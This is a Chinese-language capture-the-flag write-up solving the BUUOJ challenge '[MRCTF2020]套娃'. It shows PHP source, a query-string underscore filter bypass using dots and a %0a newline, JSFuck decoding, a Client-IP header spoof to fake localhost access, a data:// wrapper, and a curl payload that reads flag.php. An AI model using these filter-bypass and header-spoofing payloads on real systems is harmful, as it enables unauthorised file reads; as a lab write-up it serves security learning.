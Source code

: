 # [MRCTF2020]套娃

[题目地址](https://buuoj.cn/challenges#[MRCTF2020]%E5%A5%97%E5%A8%83)

看源代码能找到一段php。

```php
//1st
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

[$_SERVER['QUERY_STRING']](https://www.cnblogs.com/qiantuwuliang/archive/2010/02/28/1675279.html)获取url中的查询部分，就是?号（不包含问号）后面的部分。审查代码，第一个if要求查询内容不能包含_号，url编码后的%5f也不行。第二个if语句则是要求get参数b_u_p_t不等于23333，正则又要求值以23333开头和结尾，中间也是23333。

出现了两个自相矛盾的地方。根据第二个if语句可知我们必须传入名叫b_u_p_t的参数，但是这样的话，$_SERVER['QUERY_STRING']就能获取到包含参数名字和值的内容了。由于b_u_p_t包含下划线，第一个if语句就过不去了。以及正则，题目里的正则正常来说只有23333本身能匹配过去，但又不能等于23333。php特性真的太多了，看[wp](https://www.freebuf.com/articles/network/278261.html)又学到了东西。

第一个问题可利用这个php特性解决：

- PHP会将传参中的空格( )、小数点(.)自动替换成下划线

所以我们传`b u p t`或者`b.u.p.t`给php，php获取到的都是`b_u_p_t`。$_GET['b_u_p_t']不会有问题，$_SERVER['QUERY_STRING']获取到的则还是`b u p t`或者`b.u.p.t`，因为它处理的是url。第二个问题在23333结尾加个换行符url编码为%0a 即可绕过。

- http://28401609-7e35-445a-84b7-509187f6de3f.node4.buuoj.cn:81/?b.u.p.t=23333%0a

```
how smart you are ~

FLAG is in secrettw.php
```

去看看secrettw.php。查看源代码时发现了一堆jsfuck代码，运行得`post me Merak`。意思是用post给Merak参数传任意值。懒得开bp了，chrome console用js发个post。

```js
var url = "http://28401609-7e35-445a-84b7-509187f6de3f.node4.buuoj.cn:81/secrettw.php";

var params = "Merak=a";

var xhr = new XMLHttpRequest();

xhr.open("POST", url, true);

xhr.setRequestHeader("Content-type","application/x-www-form-urlencoded"); 

xhr.onload = function (e) {

  if (xhr.readyState === 4) {

    if (xhr.status === 200) {

      console.log(xhr.responseText);

    } else {

      console.error(xhr.statusText);

    }

  }

};

xhr.onerror = function (e) {

  console.error(xhr.statusText);

};

xhr.send(params);
```

获得php代码。

```php
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?> 
```

getIp这个函数原生php没有，应该是出题人自己写的。X-Forwarded-For不行，Client-IP行。`file_get_contents($_GET['2333']) === 'todat is a happy day'`这段一个伪协议搞定。最后`file_get_contents(change($_GET['file'])); `可以获取到file传入的文件名的值，然而被change函数改过了，需要我们写个逆向函数。

```python
from base64 import b64encode
def unchange(s):
	result=''
	for i in range(len(s)):
		result+=chr(ord(s[i])-i*2)
	print(b64encode(result.encode()))
unchange("flag.php")
#ZmpdYSZmXGI=
```

于是得到了payload。这里我用curl发了，还是懒得开bp。

```
curl 'http://06a4be5a-3abb-474d-a2ee-cc1bc3c96614.node4.buuoj.cn:81/secrettw.php?2333=data:text/plain,todat%20is%20a%20happy%20day&file=ZmpdYSZmXGI=' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: zh-CN,zh;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36' \
  -H 'Client-IP: 127.0.0.1' \
  --compressed \
  --insecure
```

注意curl发送时，`Client-IP`这个字段不能写错且大小写敏感。还有一个很坑的是，冒号前面不能加空格，比如`'Client-IP : 127.0.0.1'`就不行。

## Flag
> flag{450ca1cf-73ae-4418-b087-7dcd6e85d440}